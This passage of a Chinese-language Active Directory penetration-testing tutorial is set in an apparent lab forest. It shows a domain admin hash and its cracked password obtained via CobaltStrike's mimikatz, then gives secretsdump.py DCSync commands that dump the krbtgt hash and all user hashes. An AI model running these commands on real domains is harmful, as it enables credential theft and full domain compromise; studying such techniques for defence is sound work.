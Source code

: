 通过 CobaltStrike 内置的 mimikatz 模块抓取到 shanghai.xie.com 的域管理员 administrator 的凭据如下：

哈希：af112951ba8629d25a6a44417579283d
通过解密得到明文：P@ssword12345

然后就可以使用 `secretsdump.py` 脚本执行如下命令利用该域管理员凭据导出当前域 shanghai.xie.com 的任意用户哈希了。

```
#导出当前域中 krbtgt 用户哈希，由于域林中每个域都有 krbtgt 用户，因此需要加前缀
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc-user "shanghai\krbtgt"
```

注意，这里指定用户时需要加前缀，如：shanghai\krbtgt 。因为在域林中，每个域中都有 krbtgt 用户，因此需要指定。

<img src="80dbde0ea41c48711ba3742e78d16b6b.png" alt="截图" style="zoom:150%;" />

如果导出的是这个域中特有的用户，或者是直接导出所有用户的话可不指定前缀。命令如下：

```
#导出当前域中特有的用户哈希，此时可不加前缀
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc-user sh_test

#导出当前域中所有用户哈希，此时可不加前缀
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc
```

![截图](177016455f164353ffbda02d2025f6a9.png)

并且需要注意的是，子域 shanghai.xie.com 的域管理员无权限 DCSync 林根域 xie.com 和另一个子域 beijing.xie.com。

如图所示，子域的域管理员凭据无权限导出其他域的用户哈希。

![截图](7eda49cf0f089b365d64ca39b5cd9128.png)
